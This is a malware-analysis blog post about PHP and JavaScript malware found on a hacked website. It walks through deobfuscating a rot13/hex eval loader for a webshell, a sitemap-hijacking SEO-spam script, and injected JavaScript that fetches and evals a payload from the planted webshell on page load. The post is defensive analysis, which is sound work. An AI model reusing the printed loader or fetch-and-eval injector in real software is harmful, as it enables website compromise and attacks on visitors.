 ```yaml
---
title: "analyzing simple, real world PHP malware"
date: 2022-05-31
description: "a look at the malware nebita.com was infected with"
tags:
    - security
    - infosec
    - malware
    - reverse engineering
    - analysis
    - research
    - php
feature_image: /img/posts/nebita-malware/cover.jpg
feature_alt: "a glitchy edited screenshot of the nebita.com home page"
---
```


In February I was contacted by [convincing](https://convinci.ng/) from [webcage](https://webca.ge/), asking whether I'd like to have a look at some malware that ended up on the [website of webcage member nebita](https://nebita.com). At that point it's been a while since i last looked into any PHP malware, or PHP stuff in general, but I agreed to at least take a quick look at it. I originally documented that work in a Twitter thread, but promised a blog post and with the Twitter account it was originally posted on being suspended that makes even more sense now.

## the beginning

![an excerpt of the heavily obfuscated php injected at the start of the index file](/img/posts/nebita-malware/index.php-excerpt.png)

Various changes were made when the site was originally owned via an insecure ftp password set by the hosting provider at the time. The sites index file had obfuscated php appended to [the start of the file](https://github.com/deletescape/nebita.com-samples/blob/main/index.php#L1) and was renamed from a plain html file to a php file, similarly the main js file had obfuscated javascript [appended at the end](https://github.com/deletescape/nebita.com-samples/blob/main/main.js#L63).

![the start of the second script dropped in a new sub directory](/img/posts/nebita-malware/second-script-screenshot.png)

Additionally [another PHP file](https://github.com/deletescape/nebita.com-samples/blob/main/2nd%20script/index.php) called `deez.php`, obfuscated using a different method, was placed in a newly created subdirectory. Based on the fact that this was a standalone script hidden in a subdirectory and the few unobfuscated variables and environment settings I assumed that this script would most likely turn out to be a [webshell](https://en.wikipedia.org/wiki/Web_shell), however I was still going to try and deobfuscate it, both for the fun of it and to make sure I was right.

## the webshell

I decided to take a look at what I assumed was a webshell first, mostly because the obvious use of [rot13](https://en.wikipedia.org/wiki/ROT13) for obfuscation made it seem like a much simpler target than the other two scripts.

So let's get a basic outline of the full script:

```php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "9cf9ffdce70e787dd580fccee52f402e";
define('Viv, bebegim.','');
```
1. basic configuration with headers being set, as well as some sort of password 👀  
```php
function s(){
	$str = "66756r[...]9rr680n75o272r2463686q6s642r275q3p2s6469763r3p2s666s726q3r273o0q0n627265616o3o0q0n7q";
	$str=get_str($str);
	m($str);
}
function get_str($str){
	$str = str_rot13($str);
	return $str;
}
```
2. a big blob of data is defined, which when run through `rot_13` turns out to still be encoded in some hexadecimal format  
```php
function get1_str($str1){
	$str = $str1."ck";
	return $str;
}
function m($str){
	global $password;
	$str1="pa";
	$str1=get1_str($str1);
	$jj = '';
	@eval(`/******/`.$jj.$str1('H*',$str).$jj);
}
s();
```
3. `$password` is turned into a global, to be used inside the packed script
4. `get1_str` and `m` are simply a very badly obfuscated call to `pack` which turns our hex encoded data into plain text php...
5. ... which then gets executed via eval, after doing some useless concatenation in an attempt to obfuscate that call

All we have to do now to get out an [unobfuscated version of the script](https://github.com/deletescape/nebita.com-samples/blob/main/2nd%20script/decoded.php) is to replace the call to `eval` with `echo` and running it. And what do we get when we do that? ...

![a screenshot of part of the webshell source code](/img/posts/nebita-malware/webshell-1.jpg)

🎉 a webshell ✨

![another screenshot of part of the webshell source code, showing some of the backdooring code](/img/posts/nebita-malware/webshell-2.jpg)

It even has some fun persistence features, including a built in way to spawn persistent reverse shells on the compromised system to back door it more permanently.

## the index file

### deobfuscation

Ok, with that out of the way let's take a look at the way more complex looking code injected in the header of the index file. The first thing i did to tackle this one was to copy all the PHP into a seperate file and formatting it, this already made it signficiantly less overwhelming.

![a screenshot of part of the formated injected malware](/img/posts/nebita-malware/index-isolated.jpg)

I then URLdecoded the long string at the start, which made it clear that it seems to be some sort of look-up table/alphabet. 

```php
# before
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a%7c";

# after
$O = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_-\"?> <.-=:/1230654879';()&^$[]\\%{}!*|";
```

this quickly made it clear that this script was obfuscated by turning all strings (and method names) into array references. I first tried to undo this obfuscation by half-manually decoding the script string by string, this turned out to be way too tedious very quickly so i wrote a quick and dirty python script to automatically do it for me (with some cursed regex replacements required to join the characters into full strings (`s/"([^"]+)" . "([^"]+)"/"$1$2"/`)).

```python
script = """<full formatted but obfuscated php script here>"""

alphabet = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_-\"?> <.-=:/1230654879';()&^$[]\\%{}!*|"

count = 0
for char in alphabet:
    if char == "\"" or char == "\\":
        char = "\\" + char
    script = script.replace(f"$O[{count}]", f"\"{char}\"")
    count = count + 1

print(script)
```

After that it was only a matter of manually renaming obfuscated variable names and figuring out what [this, now super clean, script](https://github.com/deletescape/nebita.com-samples/blob/main/decoded.php) does.

![a screenshot of the start of the now deobfuscated malware script](/img/posts/nebita-malware/index-deobfuscated.jpg)

### analysis

It turns out this script is A LOT of fun and certainly way more interesting than i expected. What it does is, it captures requests for sitemaps from search engine bots and returns sitemaps from their own backend, presumably to trick search engines into ranking spam sites higher and as related to the sites infected with this malware.

![a screenshot of some of the sitemap replacement source code](/img/posts/nebita-malware/index-sitemap.jpg)

Based on this scripts function, the little info i have on the backend as well as the fact that the webshell they used is in Chinese, I assume that the site was hacked by spammers (or their contractors) from China, who then resell traffic and search engine ranking services to others, most likely also spammers/scammers.

## the javascript

The JavaScript injected at the start of the main js file turned out to be fairly heavy but standard js obfuscation, which I was able to manually reverse step by step with a little bit of patience. I don't really have a write up on how I did that for this specific instance, but I plan to at some point talk about my process for manually deobfuscating scripts.

After a few passes of manual clean up the script turns out to be merely 27 simple lines of js:
```js
if (hasRun === undefined) {
  var hasRun = true;

  var HttpClient = function () {
    this.get = function (url, callback) {
      var request = new XMLHttpRequest();
      request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
          callback(request.responseText);
        }
      };
      request.open("GET", url, !![]);
      request.send(null);
    };
  };

  (function () {
    if (document.referrer && !(document.referrer.indexOf(location.hostname) !== -1) && !document.cookie) {
      var client = new HttpClient();
      var url = location.protocol + "//nebita.com/U66c6Lzr<shortened by maia>aa8HI/deez/deez.php?id=" + Math.random().toString(36).substr(2) + Math.random().toString(36).substr(2);
      client.get(url, function (response) {
        // execute returned xss payload
        response.indexOf("ndsx") !== -1 && eval(response);
      });
    }
  })();
}
```

So all this script did is query the webshell script for a javascript payload to execute on each load of the webpage. It's unfortunately not possible to figure out anymore what, if anything at all, was injected into the site this way, but I assume that this was the main reason for the big slowdown of the page that lead to discovering the malware in the first place (this is purely speculation though).

## the backend

So next i obviously wanted to take a look at the spammers backend and it's api, however that turned out to have been taken down already at the time.

## the malware

If you are interested in looking through the malware source code yourself, or attempt to replicate my deobfuscation attempts all files mentioned throughout this article can be found in a [GitHub repository here](https://github.com/deletescape/nebita.com-samples/). Feel free to let me know if you find anything interesting I missed!